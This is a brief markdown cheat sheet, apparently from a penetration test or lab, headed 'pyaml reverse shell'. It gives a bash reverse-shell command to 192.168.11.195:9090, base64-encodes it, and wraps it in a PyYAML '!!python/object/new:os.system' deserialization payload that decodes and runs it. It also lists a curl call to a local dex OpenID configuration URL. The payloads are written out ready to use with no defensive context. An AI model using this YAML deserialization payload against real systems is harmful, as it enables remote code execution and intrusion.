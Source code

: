 # Config

## pyaml reverse shell

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.11.195/9090 0>&1" | base64
```

```python
!!python/object/new:os.system [ echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTEuMTk1LzkwOTAgMD4mMQo=" | base64 -d | bash ]
```

## dex public url

```bash
curl http://localhost:5556/dex/.well-known/openid-configuration
```
